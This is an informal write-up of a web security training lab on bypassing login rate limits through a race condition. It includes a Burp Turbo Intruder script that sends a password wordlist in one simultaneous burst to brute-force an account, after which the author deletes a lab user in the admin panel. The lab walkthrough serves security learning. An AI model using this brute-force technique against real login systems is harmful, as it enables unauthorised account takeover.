

# Lab: Bypassing rate limits via race conditions

First Capture The Login Page Request With Wrong Credential !!

<figure><figcaption></figcaption></figure>

We Send The Request Three Times and They Give Me The Rate Limit Error !!

<figure><figcaption></figcaption></figure>

Then We Make The Many Request in Groups and Then Send It In Parallel and We See The Response But It's Time We Bypass The Rate Limit !!

<figure><figcaption></figcaption></figure>

Then I use Burp Turbo Intruder in Extention !!

<figure><figcaption></figcaption></figure>

I use Below Script and Copy The all Password From Password List !!

```
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

<figure><figcaption></figcaption></figure>

Then I Use `%s` To Say The Intruder I wanna Fuzz In Here and Then I click The start Attack !!

<figure><figcaption></figcaption></figure>

We Found The `302` Redirect Response It's Means We Successfully Find The Password !!

<figure><figcaption></figcaption></figure>

After Login We Have a Admin Panel and Then We Delete The User Carlos and Lab Automatic Complete after Delete The User Carlos !!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

